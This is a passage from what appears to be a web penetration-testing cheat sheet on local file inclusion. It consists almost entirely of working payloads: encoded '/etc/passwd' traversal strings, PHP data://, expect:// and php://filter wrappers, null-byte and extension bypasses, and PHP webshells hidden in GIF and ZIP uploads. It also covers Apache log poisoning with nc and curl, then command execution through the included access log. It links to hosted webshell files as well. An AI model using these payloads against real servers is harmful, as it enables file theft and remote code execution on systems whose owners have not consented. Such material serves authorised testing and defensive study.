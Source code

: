 ```

-> urlencode and Double urlencode /etc/passwd  
```
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64
```
```
%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%36%35%25%37%34%25%36%33%25%32%66%25%37%30%25%36%31%25%37%33%25%37%33%25%37%37%25%36%34
```  
### PHP Wrappers

```
data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id  
expect://id  
php://filter/read=convert.base64-encode/resource=index.php  
php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini
```

### Filter PHP
-> Predefined Paths  
preg_match('/^\.\/okay\/.+$/', $_GET['file'])  

```
./okay/../../../../etc/passwd
```  

### PHP Extension Bypass with Null Bytes
```
https://site.com/index.php?file=/etc/passwd%00.php
```  
-> Removing .php  
```
https://site.com/index.php?file=index.p.phphp
```  
  
#### LFI + File Upload
-> gif  
```
echo 'GIF8<?php system($_GET["cmd"]); ?>' > ok.gif
``` 
https://github.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/blob/main/codes/webshells/shell.gif  
-> Zip  
1-  
```
echo '<?php system($_GET["cmd"]); ?>' > ok.php && zip wshell_zip.jpg ok.php
```
2-  
```
http://ip/index.php?file=zip://./uploads/wshell_zip.jpg%23ok.php&cmd=id  
https://raw.githubusercontent.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/main/codes/webshells/wshell_zip.jpg 
```

#### Log Poisoning
-> apache
```
nc ip 80  
<?php system($_GET[‘cmd’]); ?>  
```  
or  
1-  
```
curl -s http://ip/index.php -A '<?php system($_GET[‘cmd’]); ?>'
```
2-  
http://ip/index.php?file=/var/log/apache2/access.log&cmd=id  
```